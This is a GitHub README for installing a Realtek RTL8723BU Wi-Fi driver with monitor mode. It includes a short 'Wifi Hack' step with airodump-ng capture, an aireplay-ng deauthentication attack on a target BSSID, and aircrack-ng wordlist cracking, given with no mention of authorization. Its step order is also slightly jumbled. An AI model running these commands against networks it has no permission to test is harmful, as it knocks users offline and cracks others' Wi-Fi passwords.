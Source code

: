 # Wifi-hacking-rtl8723bu

To use your Realtek Semiconductor Corp. RTL8723BU 802.11b/g/n WLAN Adapter with **aircrack-ng**, you may need to install specific drivers that support monitor mode and packet injection. Here's a general guide to help you with the process on a Linux system:

### Step 1: Update Your System

Before installing any drivers, make sure your system is up to date:

```bash
sudo apt update
sudo apt upgrade
```

### Step 2: Install Required Packages

You'll need some essential packages for compiling the driver:

```bash
sudo apt install build-essential dkms git
```

### Step 3: Download and Install the Driver

1. **Download the Driver Source Code**:

   You can find the driver for the RTL8723BU on GitHub. Clone the repository using the following command:

   ```bash
   git clone https://github.com/rehan5039/Wifi-hacking-rtl8723bu.git
   ```

2. **Build and Install the Driver**:

   Navigate to the downloaded directory and build the driver:

   ```bash
   cd Wifi-hacking-rtl8723bu/rtl8723bu-master
   ```

   ```bash
   make
   ```

   ```bash
   sudo make install
   ```

4. **Load the Driver**:

   Once installed, load the driver using:

   ```bash
   sudo modprobe 8723bu
   ```

### Step 4: Enable Monitor Mode

After installing the driver, you can enable monitor mode using the following command:

```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```

*Note*: Replace `wlan0` with your actual wireless interface name if it's different.

### Step 5: Verify Installation

Verify that your adapter supports monitor mode and packet injection:

### Step 6: Wifi Hack

```bash
airodump-ng wlan0
```

```bash
airodump-ng -c [channel] --bssid [BSSID] -w  capture wlan0
```

```bash
aireplay-ng --deauth 10 -a [BSSID] wlan0
```

```bash
aircrack-ng capture.cap -w [wordlist]
```

You should see "Mode:Monitor" next to your wireless interface.

### Troubleshooting

- **Driver Compatibility**: If you face any issues, ensure the driver you are using is compatible with your kernel version.
- **Error Messages**: Check for error messages during the `make` or `make install` process. They can provide clues about what might be going wrong.
- **Reboot**: Sometimes, a simple reboot can help load the necessary drivers correctly.

This should set up your Wi-Fi adapter for use with **aircrack-ng**.


### Another Method

# rtl8723bu
Driver for Realtek RTL8723BU Wireless Adapter with Hardware ID `0bda:b720`

# How to use?
## Get the source first.
Get it from Github repository with the following command in the Linux terminal.
```
git clone https://github.com/rehan5039/Wifi-hacking-rtl8723bu.git
cd Wifi-hacking-rtl8723bu/rtl8723bu-master
```

## Concurrent or Non-Concurrent Mode
By default driver operates the hardware as a station AND as an access point *simultaneously*.  This will show two devices when you run the `iwconfig` command.

If you do not want two devices (station and an access point) *simultaneously*, then follow these instructions.

- Step 1: Run the following command in the Linux terminal. 
```
nano Makefile
```

- Step 2: Find the line that contains `EXTRA_CFLAGS += -DCONFIG_CONCURRENT_MODE` and insert a `#` symbol at the beginning of that line. This comments that line and disables concurrent mode.


## Manual install
Run the following commands in the Linux terminal.

```
make
sudo make install
sudo modprobe -v 8723bu
```
This driver can not work with the standard driver rtl8xxxu, thus you need to blacklist it. Run the following command
...
sudo nano /etc/modprobe.d/50-rtl8xxxu.conf
...
Add a single line: blacklist rtl8xxxu
...
## Automatic install using DKMS
If you don't want to worry about building/installing driver after kernel update, use this scenario. For Ubuntu/Debian install DKMS package using command `sudo apt install dkms`.

Then run following commands in terminal
```
source dkms.conf
sudo mkdir /usr/src/$PACKAGE_NAME-$PACKAGE_VERSION
sudo cp -r core hal include os_dep platform dkms.conf Makefile rtl8723b_fw.bin /usr/src/$PACKAGE_NAME-$PACKAGE_VERSION
sudo dkms add $PACKAGE_NAME/$PACKAGE_VERSION
sudo dkms autoinstall $PACKAGE_NAME/$PACKAGE_VERSION
```

### Steps to Ensure Correct Driver Use:
To ensure you're using the correct driver:

- **Blacklist the Default Driver:**
  To prevent the default `rtl8xxxu` driver from loading, create a blacklist file:

  ```bash
  echo "blacklist rtl8xxxu" | sudo tee /etc/modprobe.d/rtl8xxxu.conf
  ```

- **Rebuild and Reload Driver:**
  Ensure you are in the `rtl8723bu` directory and rebuild the module:

  ```bash
  make clean
  make
  sudo make install
  sudo modprobe 8723bu
  ```

- **Verify the Driver:**
  After loading the module, verify the driver in use:

  ```bash
  iwconfig
  ```
  
